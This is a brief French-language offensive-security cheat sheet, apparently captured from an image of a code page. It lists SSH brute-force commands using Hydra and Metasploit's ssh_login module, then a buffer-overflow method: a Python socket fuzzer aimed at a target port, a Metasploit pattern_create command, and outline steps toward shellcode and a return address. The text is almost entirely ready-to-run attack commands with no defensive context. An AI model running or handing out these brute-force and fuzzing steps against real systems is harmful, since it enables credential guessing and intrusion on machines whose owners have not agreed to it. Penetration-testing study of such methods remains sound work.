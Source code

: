 ### SSH - Brute Force et Exploitation
```bash
# 1. Brute force avec Hydra
hydra -L users.txt -P passwords.txt ssh://target.com

# 2. Avec Metasploit
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS target.com
set USERNAME root
set PASS_FILE passwords.txt
run

# 3. Si credentials trouvés, connexion SSH
ssh user@target.com

# 4. Exploitation des clés SSH faibles
ssh-keyscan target.com > keys.txt
# Analyser les clés pour faiblesses
```

### Buffer Overflow - Méthode Manuelle
```bash
# 1. Fuzzing pour crash
#!/usr/bin/python3
import socket
import sys

target = "target.com"
port = 9999

# Créer buffer de plus en plus grand
for i in range(1, 1000):
    buffer = "A" * i
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, port))
    s.send(buffer.encode())
    s.close()
    print(f"Sent {i} bytes")

# 2. Trouver l'offset exact
# Utiliser pattern unique
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000

# 3. Identifier l'adresse de retour
# Debugger ou analyser le crash

# 4. Développer l'exploit final
# shellcode + padding + return_address
```
